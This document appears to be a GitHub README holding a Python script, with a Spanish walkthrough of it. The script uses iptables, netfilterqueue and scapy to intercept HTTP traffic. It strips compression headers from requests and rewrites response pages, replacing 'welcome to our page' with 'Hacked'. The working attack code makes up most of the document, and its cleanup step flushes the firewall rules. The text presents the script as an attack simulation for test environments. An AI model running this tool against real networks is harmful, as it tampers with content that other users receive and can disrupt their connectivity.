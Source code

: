 ```python
#!/usr/bin/env python3

import netfilterqueue
import scapy.all as scapy
import re
import sys
import signal
import os
from termcolor import colored


def def_handler(sig,frame):
  print(colored(f"\n[+] Saliendo...\n","red"))
  drequirements()
  sys.exit(1)


signal.signal(signal.SIGINT,def_handler)


def requirements():
  os.system("iptables -I INPUT -j NFQUEUE --queue-num 0")
  os.system("iptables -I OUTPUT -j NFQUEUE --queue-num 0")
  os.system("iptables -I FORWARD -j NFQUEUE --queue-num 0")
  os.system("iptables --policy FORWARD ACCEPT")


def drequirements():
  os.system("iptables -D INPUT 1")
  os.system("iptables -D INPUT -j NFQUEUE --queue-num 0")
  os.system("iptables -D OUTPUT -j NFQUEUE --queue-num 0")
  os.system("iptables -D FORWARD -j NFQUEUE --queue-num 0")
  os.system("iptables -F")
  os.system("iptables --policy INPUT ACCEPT")
  os.system("iptables --policy OUTPUT ACCEPT")
  os.system("iptables --policy FORWARD DROP")

def set_load(packet,load): 
  packet[scapy.Raw].load = load 

  del packet[scapy.IP].len
  del packet[scapy.IP].chksum 
  del packet[scapy.TCP].chksum 
  return packet


def process_packet(packet): 
  scapy_packet=scapy.IP(packet.get_payload()) 

  if scapy_packet.haslayer(scapy.Raw): 
    try:
      if scapy_packet[scapy.TCP].dport==80: 
        modified_load= re.sub(b"Accept-Encoding:.*?\\r\\n",b"",scapy_packet[scapy.Raw].load) # >
        new_packet= set_load(scapy_packet,modified_load) 
        packet.set_payload(new_packet.build()) 

      elif scapy_packet[scapy.TCP].sport==80: 
        modified_load= scapy_packet[scapy.Raw].load.replace(b"welcome to our page", b"Hacked") >
        new_packet=set_load(scapy_packet,modified_load) 
        packet.set_payload(new_packet.build()) 

    except:
      pass

  packet.accept()

def main():
  requirements()
  queue=netfilterqueue.NetfilterQueue() 
  queue.bind(0, process_packet) 
  queue.run() 

if __name__=='__main__':
  main()
  ```
---------------------
## Explicación

1. **Definición de Señal de Salida**:
    - La función `def_handler` captura `SIGINT` (Ctrl+C) para restaurar las reglas de `iptables` y salir de manera segura.
2. **Configuración de Reglas de `iptables`**:
    - La función `requirements()` configura reglas de `iptables` para redirigir paquetes a una cola específica (`NFQUEUE`) que el script interceptará.
    - La función `drequirements()` elimina estas reglas de `iptables` y restablece las políticas por defecto al salir.
3. **Manipulación de Cargas Útiles de Paquetes**:
    - La función `set_load()` permite modificar el contenido (`load`) de un paquete, y luego borra las longitudes y sumas de verificación (`len` y `chksum`) de las capas IP y TCP para que `scapy` las vuelva a calcular.
4. **Intercepción y Modificación de Paquetes en la Cola**:
    - La función `process_packet()` procesa cada paquete interceptado:
        - Si es una solicitud HTTP (puerto de destino `80`), elimina la codificación de compresión (`Accept-Encoding`) para permitir la modificación del contenido.
        - Si es una respuesta HTTP (puerto de origen `80`), reemplaza el texto "welcome to our page" con "Hacked" en el contenido HTML de la respuesta.
5. **Inicialización de la Cola de Paquetes**:
    - La función `main()` inicia la cola de `netfilterqueue`, enlazándola al número de cola `0` y procesando cada paquete con `process_packet()`.
6. **Ejecución del Script**:
    - El bloque principal ejecuta `main()`, configurando el sistema para interceptar y modificar paquetes en tiempo real hasta que el usuario interrumpa el programa.

Este script es útil para modificar tráfico HTTP en tiempo real, como parte de una simulación de ataque de red o pruebas de seguridad, aunque debe utilizarse con cuidado y en entornos de prueba.